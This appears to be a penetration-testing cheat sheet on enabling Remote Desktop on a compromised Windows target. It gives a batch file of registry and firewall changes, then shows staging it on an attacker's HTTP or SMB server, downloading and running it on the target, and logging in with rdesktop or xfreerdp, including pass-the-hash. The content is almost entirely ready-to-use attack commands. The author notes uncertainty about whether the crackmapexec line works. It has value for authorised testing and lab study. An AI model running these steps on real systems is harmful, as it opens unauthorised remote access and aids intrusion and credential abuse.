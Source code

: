 # Enable Remote Desktop (RDP) on the target via an elevated shell

You will need an elevated shell to enable RDP

Save the following commands on a .bat file - ex.: `enablerdp.bat`

```cmd
reg add "hklm\system\currentControlSet\Control\Terminal Server" /v "AllowTSConnections" /t REG_DWORD /d 0x1 /f
reg add "hklm\system\currentControlSet\Control\Terminal Server" /v "fDenyTSConnections" /t REG_DWORD /d 0x0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fAllowToGetHelp /t REG_DWORD /d 1 /f
netsh advfirewall set rule group="remote administration" new enable="yes"
netsh advfirewall firewall set rule group="remote administration" new enable=yes
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes profile=domain
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes profile=private
netsh firewall add portopening TCP 3389 "Remote Desktop"
netsh firewall set service RemoteDesktop enable
netsh firewall set service RemoteDesktop enable profile=ALL
netsh firewall set service RemoteAdmin enable
sc config TermService start= auto
net start Termservice
```

## HTTP

Start hosting the file on a HTTP server

```bash
cd /usr/share/windows-resources/binaries/
sudo python -m http.server 80
```

On the target, copy the file on PowerShell and execute it.

```powershell
cd C:\Temp\
Invoke-WebRequest -Uri 'http://<Kali_IP>/enablerdp.bat' -OutFile C:\Temp\enablerdp.bat
cmd
enablerdp.bat
```

## SMB

Start hosting the file on a SMB share.

```bash
cd /usr/share/windows-resources/binaries/
impacket-smbserver share $(pwd) -smb2support
```

On the target copy the file and execute it.

```cmd
xcopy \\<Kali_IP>\share\enablerdp.bat C:\Temp\
C:\Temp\enablerdp.bat
```

OR

```bash
crackmapexec smb <Target_IP> -u '<username>' -p '<password>' -M rdp -o ACTION=enable
```

- I am not sure if this really works

Now, try to access it

```bash
rdesktop <Target_IP> -d '<DOMAIN>' -u '<User>' -p '<Pwd>'


rdesktop <Target_IP> -d '<DOMAIN>' -u '<User>' -p '<Pwd>' -r disk:kali=/home/kali
```

OR

```bash
xfreerdp /v:<Target_IP> /d:'<DOMAIN>' /u:'<User>' /p:'<Pwd>' /w:1920 /h:1080


xfreerdp /v:<Target_IP> /d:'<DOMAIN>' /u:'<User>' /pth:'<HASH>' /drive:kali,/home/kali
```
